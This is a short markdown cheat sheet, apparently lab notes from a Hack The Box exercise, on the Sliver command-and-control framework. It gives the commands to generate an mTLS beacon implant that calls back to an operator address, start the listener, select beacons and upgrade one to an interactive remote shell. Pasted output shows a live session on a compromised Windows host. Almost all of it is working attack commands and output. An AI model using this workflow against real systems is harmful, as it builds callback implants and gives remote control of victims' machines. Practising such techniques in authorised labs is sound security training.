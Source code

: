 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)  
  
sliver (PERFECT_WALL) >    
OR  
sliver > `use beacons`   
Select the beacon using arrows to move    
  
  
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`  
  
[] Using beacon's active C2 endpoint: mtls://10.10.16.20:80  
[] Tasked beacon SOLID_TINDERBOX (da51bf52)    
[] Session 437faed6 SOLID_TINDERBOX - 10.10.110.10:51443 (cywebdw) - windows/amd64 - Wed, 09 Aug 2023 13:16:42 EDT      
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
  
Now we got an interactive session shell.    





